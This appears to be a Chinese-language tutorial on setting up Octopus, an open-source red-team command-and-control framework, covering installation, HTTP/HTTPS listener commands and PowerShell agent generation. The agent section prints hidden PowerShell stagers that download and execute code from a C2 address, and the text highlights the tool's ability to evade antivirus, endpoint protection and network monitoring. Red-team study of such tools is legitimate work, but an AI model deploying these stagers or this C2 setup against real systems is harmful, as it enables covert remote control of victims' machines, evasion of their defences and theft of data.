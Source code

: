 ## C2服务器另类搭建方法（二）

#### 关于Octopus

Octopus是一款基于Python开发的开源工具，该工具可以通过HTTP/S控制Octopus Powershell代理。

Octopus的主要目的是帮助红队研究人员在对目标进行操作之前，先通过Octopus收集目标设备的信息，并对其执行渗透测试。

Octopus以一种非常简单的方式通过加密良好的通道执行命令并与C2交换信息，这种方式确保了几乎所有的AV、终端保护和网络监控方案都难以识别和探测到Octopus操作。

Octopus中有一个很酷的功能叫做ESA，它代表“端点态势感知”，它将收集有关目标的一些重要信息，帮助我们更好地了解在操作过程中将面对的目标网络端点，从而让我们能够根据这些信息定制实际操作方案。

Octopus的操作非常隐蔽，并且使用了AES-256作为PowerShell代理和C2服务器之间通信数据的加密算法。除此之外，我们还可以通过有效证书来配置Octopus C2服务器使用SSL/TLS。

#### Octopus关键功能

Octopus提供了许多功能，可以帮助红队研究人员在开始任务之前更好地了解目标的相关信息：

```
1、通过HTTP/S控制代理；
2、执行系统命令；
3、下载/上传文件；
4、加载外部PowerShell模块；
5、C2和代理之间使用AES-256加密信道；
6、使用了隐蔽的方法来执行命令和传输数据；
7、支持为每个目标创建自定义的监听器；
8、生成不同类型的Payload；
9、生成2.0或更高版本的PowerShell，支持所有版本的Windows；
10、在不需要触发powershell.exe进程的情况下执行Octopus Windows代理可执行程序；
11、自动从所有端点自动收集信息；
```

下列命令可以安装Octopus所需的所有依赖组件：

```
pip install -r requirements.txt
```

如果使用的是Linux系统，则需要安装nasm、mingw-w64和mono-devel：

```
apt install nasm

apt install mingw-w64

apt install mono-devel
```

#### 工具安装

首先，我们需要使用下列命令将该项目源码克隆至本地：

```
git clone https://github.com/mhaskar/Octopus/
```

接下来，使用下列命令安装Octopus所需的所有依赖组件：

```
pip install -r requirements.txt
```

最后，使用下列命令开启并运行Octopus服务器：

```
./octopus.py
```

此时，我们将看到如下所示的信息：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1655428174053/22b7308799ba4a3e820723a7fb7601d0.png)

#### 工具使用

##### HTTP监听器

下列命令将运行一个名为operation1的监听器：

```
listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1
```

上述命令将返回如下所示的结果：

```
Octopus >>listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1

Octopus >> * Serving Flask app "core.weblistener" (lazy loading)

 * Environment: production

   WARNING: Do not use the development server in a production environment.

   Use a production WSGI server instead.

 * Debug mode: off

 

Octopus >>
```

#### HTTPS监听器

```
Octopus >>listen_https

[-] Please check listener arguments !

Syntax  : listen_https BindIP BindPort hostname interval URL listener_name certficate_path key_path

Example (with domain) : listen_https 0.0.0.0 443 myc2.live 5 login.php op1_listener certs/cert.pem certs/key.pem

Octopus >>listen_https 0.0.0.0 443 myc2.live 5 login.php darkside_operation certs/cert.pem certs/key.pem

SSL listener started !

[+]darkside_operation Listener has been created

Octopus >> * Serving Flask app "core.weblistener" (lazy loading)

 * Environment: production

   WARNING: Do not use the development server in a production environment.

   Use a production WSGI server instead.

 * Debug mode: off

 

Octopus >>
```

#### PowerShell代理生成

下列命令将针对operation1监听器生成一个代理：

```
generate_powershell operation1
```

此时，我们将看到如下所示的结果：

```
Octopus >>generate_powershell operation1

#====================

1) powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

 

2) powershell -w hidden "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

 

3) powershell -w hidden "$w = (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');Invoke-Expression $w;"

 

Note - For Windows 7 clients you may need to prefix the payload with "Add-Type -AssemblyName System.Core;"

       e.g. powershell -w hidden "Add-Type -AssemblyName System.Core;IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

 

Hack your way in ;)

#====================

 

Octopus >>
```

## 许可证协议

本项目的开发与发布遵循[GPL-3.0](https://github.com/mhaskar/Octopus/blob/master/LICENSE)开源许可证协议。

## 项目地址

**Octopus：** 【[GitHub传送门](https://github.com/mhaskar/Octopus)】

## 参考资料

> [https://github.com/mhaskar/Octopus/issues](https://github.com/mhaskar/Octopus/issues)
>
> [https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/](https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/)
>
> [https://shells.systems/octopus-v1-0-stable-cobalt-strike-deployment-much-more](https://shells.systems/octopus-v1-0-stable-cobalt-strike-deployment-much-more)
>
> [https://shells.systems/unveiling-octopus-the-pre-operation-c2-for-red-teamers/](https://shells.systems/unveiling-octopus-the-pre-operation-c2-for-red-teamers/)
